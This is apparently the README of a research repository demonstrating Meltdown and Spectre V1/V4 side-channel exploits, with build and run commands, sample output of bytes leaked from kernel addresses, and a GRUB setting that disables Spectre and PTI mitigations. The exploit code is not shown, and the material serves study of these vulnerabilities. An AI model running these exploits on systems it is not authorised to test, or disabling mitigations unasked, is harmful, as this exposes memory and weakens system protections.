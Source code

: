 # Meltdown / Spectre
This repository contains code that demonstrates how Meltdown and Spectre vulnerabilities work and shows the differences between them. It also contains measurement functions for comparing results.
## Meltdown [(CVE-2017-5754)](https://nvd.nist.gov/vuln/detail/CVE-2017-5754)
The Meltdown implementation contains three types of malicious payload that were introduced in the original Meltdown [repository](https://github.com/IAIK/meltdown).
- meltdown
- meltdown_nonull
- meltdown_fast
#### Build
```
make
```
or
```
make meltdown
```
#### Run
```
./meltdown [address] [length]
```
```
./meltdown_nonull [address] [length]
```
```
./meltdown_fast [address] [length]
```
Run examples without arguments to read data from local process memory.
## Spectre Variant 1 [(CVE-2017-5753)](https://nvd.nist.gov/vuln/detail/CVE-2017-5753)
Spectre implementation from the original Spectre [paper](https://spectreattack.com/spectre.pdf).
#### Build
```
make
```
or
```
make spectre_v1
```
#### Run
```
./spectre_v1 [address] [length]
```
Run example without arguments to read data from local process memory.
## Spectre Variant 4 [(CVE-2018-3639)](https://nvd.nist.gov/vuln/detail/CVE-2018-3639)
Implementation of the Speculative Store Bypass, aka Spectre V4. This vulnerability works worse than Meltdown or Spectre V1 and doesn't work under Virtual Machine. Code contains two variants of the malicious payload. The first variant is written in C and its instructions are compiler-dependent. For example, GCC does unnecessary register manipulation. The second variant is written in assembly language and remains unmodified after compilation.
- spectre_v4
- spectre_v4_asm
#### Build
```
make
```
or
```
make spectre_v4
```
#### Run
```
./spectre_v4 [address] [length]
```
```
./spectre_v4_asm [address] [length]
```
Run examples without arguments to read data from local process memory.
## Testing
The Meltdown repository contains [tools](https://github.com/IAIK/meltdown/blob/master/README.md#demo-4-read-physical-memory-physical_reader) that can be used to test these vulnerabilities on Linux systems. Use `secret` tool to put the secret string into memory. Use `direct_physical_map.sh` script to extract the physical memory offset from the kernel.
### Results
The results table contains information for all bytes read, including: virtual address, status, 1st and 2nd best guesses with their scores, number of attempts, number of zero checks.
```
./meltdown 0xffff97480b415188 50
CVE-2017-5754: Meltdown (null)
Flush+Reload: 323 cycles, Reload only: 36 cycles
Flush+Reload threshold: 131 cycles
Reading 50 bytes in 1000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188      Zero 0x43 C     3    -       -   945     5
0xffff97480b415189   Success 0x6F o     3    -       -     3     -
0xffff97480b41518a   Success 0x6E n     3    -       -   215     -
0xffff97480b41518b   Success 0x67 g     3    -       -     3     -
0xffff97480b41518c   Success 0x72 r     3    -       -     3     -
0xffff97480b41518d   Success 0x61 a     3    -       -     4     -
...
```
```
./meltdown_fast 0xffff97480b415188 50
CVE-2017-5754: Meltdown (fast)
Flush+Reload: 397 cycles, Reload only: 38 cycles
Flush+Reload threshold: 157 cycles
Reading 50 bytes in 1000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188      Zero 0x43 C     5 0x58 X     1   776   757
0xffff97480b415189      Zero 0x6F o     5 0xD0       1   901   797
0xffff97480b41518a      Zero 0x6E n     5 0x43 C     1   507   395
0xffff97480b41518b   Success 0x67 g     3    -       -   147     -
0xffff97480b41518c      Zero 0x72 r     3 0x5D ]     1  1000   862
0xffff97480b41518d      Zero 0x61 a     3    -       -   546   115
...
```
```
./spectre_v4 0xffff97480b415188 50
CVE-2018-3639: Spectre Variant 4 (compiler-dependent)
Flush+Reload: 379 cycles, Reload only: 40 cycles
Flush+Reload threshold: 153 cycles
Reading 50 bytes in 4000 tries:
0xffff97480b415188    STATUS  1st   SCORE  2nd   SCORE TRIES ZEROS
0xffff97480b415188   Unclear 0xFF       1 0xF5       1  4000     -
0xffff97480b415189   Unclear 0xB7       1 0x16       1  4000     -
0xffff97480b41518a   Unclear 0x8E       1 0x79 y     1  4000     -
0xffff97480b41518b Undefined    -       -    -       -  4000     -
0xffff97480b41518c   Unclear 0xEB       1 0x75 u     1  4000     -
0xffff97480b41518d   Unclear 0xD4       1 0xCA       1  4000     -
...
```
Byte status can be one of:
- `Success` - byte was detected successfully `(score_1 >= score_2 * 2)`
- `Unclear` - the result is unclear, check also the second guess
- `Zero` - the result is defined, but a zero byte with best score was detected (see ZEROS column). Read more about this case in the original Meltdown [paper](https://meltdownattack.com/meltdown.pdf)
- `Undefined` - no results, byte undefined
## Implementation for Windows
Spectre V1 and V4 examples can be compiled for Windows using the MinGW compiler. While Meltdown implementation uses POSIX signals that are not fully supported on Windows.
#### Build
```
make win
```
#### Run
```
spectre_v1.exe [address] [length]
```
```
spectre_v4.exe [address] [length]
```
```
spectre_v4_asm.exe [address] [length]
```
Run examples without arguments to read data from local process memory.
## Additional Information
### Check Meldown and Spectre protection on Linux
Run commands:
```
$ cat /sys/devices/system/cpu/vulnerabilities/meltdown
Vulnerable    
$ cat /sys/devices/system/cpu/vulnerabilities/spectre_v1
Vulnerable: __user pointer sanitization and usercopy barriers only; no swapgs barriers
```
### Disable Meldown and Spectre protection on Linux
Add or change this line in the file `/etc/default/grub`
```
GRUB_CMDLINE_LINUX="nospectre_v1 nopti"
```
Then run command:
```
sudo update-grub
```
## References
* [Spectre Paper](https://spectreattack.com/spectre.pdf)
* [Meltdown Paper](https://meltdownattack.com/meltdown.pdf)
* [Meltdown Source Code](https://github.com/IAIK/meltdown)
* [CVE-2017-5715: Spectre Variant 2 - Branch Target Injection](https://nvd.nist.gov/vuln/detail/CVE-2017-5715)
* [CVE-2017-5753: Spectre Variant 1 - Bounds Check Bypass](https://nvd.nist.gov/vuln/detail/CVE-2017-5753)
* [CVE-2017-5754: Meltdown Variant 3 - Rogue Data Cache Load](https://nvd.nist.gov/vuln/detail/CVE-2017-5754)
* [CVE-2018-3639: Spectre Variant 4 - Speculative Store Bypass](https://nvd.nist.gov/vuln/detail/CVE-2018-3639)
* [CVE-2018-3640: Meltdown Variant 3a - Rogue System Register Read](https://nvd.nist.gov/vuln/detail/CVE-2018-3640)
